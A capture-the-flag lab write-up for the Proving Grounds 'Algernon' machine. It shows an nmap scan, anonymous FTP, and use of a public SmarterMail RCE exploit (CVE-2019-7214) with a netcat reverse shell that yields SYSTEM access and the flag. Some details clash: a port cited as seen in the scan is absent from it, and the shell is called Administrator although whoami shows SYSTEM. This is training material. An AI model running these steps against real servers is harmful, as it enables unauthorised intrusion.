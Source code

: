 # ​Proving Grounds - Easy Windows - Algernon

- **Points** 10
- **Level** Easy
- **Number of Flags** 1
- **Vector Type** SmarterMail
- **IP** 192.168.53.65
- **Job Roles** Network Penetration Tester
- **Skills** Web Application Attacks

---

# About

In this lab, we will exploit a remote code execution vulnerability in build 6985 of the SmarterMail application. This exercise enhances your skills in identifying and exploiting vulnerabilities for gaining access to systems.

---

# Summary

This lab demonstrates exploiting a remote code execution vulnerability in SmarterMail build 6985 to gain SYSTEM-level access on a Windows server. Learners will identify the application version, leverage an RCE exploit, and use a reverse shell payload to compromise the target. This lab emphasizes web application exploitation and highlights the risks of unpatched software.

---

## Learning Objectives

**After completion of this lab, learners will be able to:**

- Enumerate open ports and services to identify the SmarterMail application running on port 9998.
- Confirm the application version and search for applicable exploits.
- Deploy the SmarterMail RCE exploit with a reverse shell payload.
- Verify SYSTEM-level access upon successful exploitation.
- Understand the importance of applying patches to mitigate known vulnerabilities.


---

## Recon

- NMap scan

```bash
nmap -A 192.168.53.65
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 09:10 UTC
Nmap scan report for 192.168.53.65
Host is up (0.00086s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 07-17-25  02:07AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
9998/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Thu, 17 Jul 2025 09:11:05 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
|_http-server-header: Microsoft-IIS/10.0
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1903 - 21H1
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-17T09:11:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.88 seconds

```


---

## Basic Enumeration

- Anonymous FTP login is enabled, allowing unauthenticated access.

```bash
ftp 192.168.53.65
Connected to 192.168.53.65.
220 Microsoft FTP Service
Name (192.168.53.65:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

**Note: No sensitive data was found in the accessible FTP directories.(Rabbit Hole)**

- Port 80 is just a windows IIS page.
- Port 9998 is a login page.

---

## Port 9998 Enumeration

- Opening port 9998 in browser redirects to http://192.168.53.65:9998/interface/root#/login.
- Which is a login page belongs to **smartmailer**.
- Researching exploits for SmarterMail on Google we come across an interesting exploit.
- Exploit link https://www.exploit-db.com/exploits/49216

---

## Exploiting CVE-2019-7214 to get initial access

- Looking at the `nmap` results from earlier we do have .NET remoting running on port 17001. As such this exploit should be applicable to the target machine.
- Exploit configuration . We just need to update target ip (HOST) and our machine ip (LHOST) in the script.
- Then we need to start a netcat listener to get reverse shell.

```bash
nc -lvnp 4444
```

- After starting the listener, we can execute the exploit to get reverse shell.

```bash
python3 49216
```

- We will get the shell in our netcat listener as **Administrator**

```bash
nc -lvnp 4444 
listening on [any] 4444 ...
connect to [192.168.49.53] from (UNKNOWN) [192.168.53.65] 49906
bash -i
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> 
```

---

## Flag Extraction

- Now we can just navigate to **C:\Users\Administrator\Desktop** and read the flag inside **proof.txt** file.

```bash
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----        7/17/2025   2:07 AM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> type proof.txt
76fb8ea14********1c2cbbb
```

---

## Author

[Zishan Ahamed Thandar](https://zishanadthandar.github.io)
